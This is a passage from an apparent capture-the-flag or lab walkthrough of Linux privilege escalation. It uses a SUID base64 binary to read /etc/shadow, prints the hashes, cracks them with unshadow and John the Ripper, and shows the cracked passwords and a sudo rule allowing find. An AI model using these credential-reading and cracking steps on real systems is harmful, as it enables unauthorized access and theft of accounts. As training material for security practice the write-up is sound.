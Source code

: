 ```bash
37209171   52 -rwsr-x---   1 root     sssd        49592 Oct 15  2020 /usr/libexec/sssd/selinux_child
37209165   28 -rwsr-x---   1 root     sssd        27792 Oct 15  2020 /usr/libexec/sssd/proxy_child
18270608   16 -rwsr-sr-x   1 abrt     abrt        15344 Oct  1  2020 /usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
18535928   56 -rwsr-xr-x   1 root     root        53776 Mar 18  2020 /usr/libexec/flatpak-bwrap
```

We can abuse base64 binary to read files like `/etc/shadow`
```bash
[leonard@ip-10-10-232-53 ~]$ LFILE=/etc/shadow
[leonard@ip-10-10-232-53 ~]$ /usr/bin/base64 "$LFILE" | base64 --decode
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
[leonard@ip-10-10-232-53 ~]$ 
[leonard@ip-10-10-232-53 ~]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
leonard:x:1000:1000:leonard:/home/leonard:/bin/bash
missy:x:1001:1001::/home/missy:/bin/bash
[leonard@ip-10-10-232-53 ~]$ 
```

Now, crack the passwords, copy both of /passwd and /shadow files, and save them.
```bash
─$ unshadow passwd.txt shadow.txt > hash.txt 
─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
─$ john --show hash.txt                                     
leonard:Penny123:1000:1000:leonard:/home/leonard:/bin/bash
missy:Password1:1001:1001::/home/missy:/bin/bash

2 password hashes cracked, 0 left
```

Login to the missy account, and look for vactors.
```bash
[missy@ip-10-10-181-178 leonard]$ sudo -l
Matching Defaults entries for missy on ip-10-10-181-178:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-181-178:
    (ALL) NOPASSWD: /usr/bin/find
```
